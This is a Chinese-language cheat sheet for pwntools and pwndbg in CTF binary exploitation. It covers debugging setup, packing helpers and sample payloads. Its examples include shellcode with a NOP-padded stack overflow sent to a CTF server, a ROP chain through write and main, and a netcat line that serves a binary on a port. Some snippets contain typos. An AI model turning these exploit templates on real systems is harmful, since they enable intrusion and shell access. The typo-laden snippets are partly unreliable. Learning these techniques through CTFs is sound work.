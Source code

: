 pwndbg


## pwntools

[pwntools 命令行工具](https://zero-mk.github.io/2019/01/01/pwntools-Command%20Line%20Tools/)
[Link](https://www.jianshu.com/p/6e528b33e37a)
[Link](https://docs.pwntools.com/en/stable/timeout.html)

```py
# timeout
context.timeout = 30
```

### 本地启动

nc -vc ./fmt -kl 3333

然后其他机器就可以 nc ip port 连接了

### 怎样调试

方法 1

```python
context(arch='amd64', os='linux', log_level='debug')
sh = process('./pwn')
# gdb.attach(sh, 'b *0x1234')
gdb.attach(sh)
```

方法 2

```python
sh = process('./pwn')
raw_input('debug')
这时看pid，比如是 6533, 新建终端，
$gdb
$attach 6533
```

### 指令介绍

p32、p64 是 64/32 位代码 打包为二进制，u32、u64 是解包为二进制

**flat 模块能将 pattern 字符串和地址结合并且转为字节模式**

```python
payload = flat(cyclic(32), 0x804a060)
io.sendlijneafter(':', flat['a'*0x8c, e.plt['system'], 0, 0x804a024, 0, 0])
```

symbols

    ELF('./level3').symbols['main']
    ELF('./level3').sym['main']

gdb.attach(sh) # gdb 附加到调试

### 示例

```python
from pwn import *
context(log_level = 'debug', arch = 'i386', os = 'linux') # 能显示调试信息
#io = process('./level1')
io = remote('pwn2.jarvisoj.com', 9877) # 远程连接
text = io.recvline()[14: -2] # 获取返回值
# recvline(keepends=True) : 接收一行，keepends为是否保留行尾的\n
shellcode = asm(shellcraft.sh()) # pwntools生成的 sh 的shellcode
p64(0x400000) # 地址转 64 位二进制
p32(0x400000) # 地址转 32 位二进制
payload = shellcode.decode('latin') + '\x90' * (0x88 + 0x4 - len(shellcode)) + p32(buf_addr).decode('latin')
io.send(payload)
io.interactive()
io.close()
```

从 write 返回 main

```python
#char[88] ebp  write函数地址  write函数返回地址(返回到main函数)  write函数参数一(1)  write函数参数二(write_got地址)  write函数参数三(写4字节)
payload = flat('A'*0x88, p32(0xdeadbeef), p32(write_plt), p32(main_addr), p32(1), p32(write_got), p32(0xdeadbeef))
# payload = flat('a'*0x88, p64(syscall), p64(syscall)) # buuctf这题需要2个，不明白。好像是栈没对齐的原因
```

#### 输入字符

```python
io.sendlineafter('name', payload)

io.recvuntil("your name")
io.sendline("/bin/sh")

print(io.recvall())
```

#### 汇编转二进制、数字、字符转换等

```python
# python3
from pwn import *
print(asm('XCHG EAX,ESP\nRET\nMOV ECX,[EAX]\nMOV [EDX],ECX\nPOP EBX\nRET'.lower()).hex())
```

p32

```python
>>> p32(0x8040000)
b'\x00\x00\x04\x08'
```

u32 使用

```python
>>> u32('\x00\x00\x04\x08')
134479872
>>> hex(u32('\x00\x00\x04\x08'))
'0x8040000'
```

#### runshellcode

```python
from pwn import *
run_shellcode(a.encode())
```

### 相关知识

通过 ldd 查找 libc 共享库， 这里 python 需要用到 c 语言的标准动态库, srand 用到 libc.so.6

```sh
kali@kali:/mnt/hgfs/vmware$ ldd guess_num
        linux-vdso.so.1 (0x00007ffec67fa000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007faeab4e3000)
        /lib64/ld-linux-x86-64.so.2 (0x00007faeab8c1000)
```

# FAQ

1. pwndbg Debugger always exiting
[Link](https://github.com/Gallopsled/pwntools/issues/1677) [Solution](https://github.com/Gallopsled/pwntools/commit/7ececc6bce24ccf3fe9c19c12b225e5e85d56afc)

# Article

[[分享] pwndbg+tmux真乃天作之合 ](https://bbs.kanxue.com/thread-276203.htm)
[baidu:IDA pwntools](https://www.baidu.com/s?wd=pwntools+ida+%E8%B0%83%E8%AF%95)
[IDA配合pwntool调试环境](https://zhuanlan.zhihu.com/p/347107006)
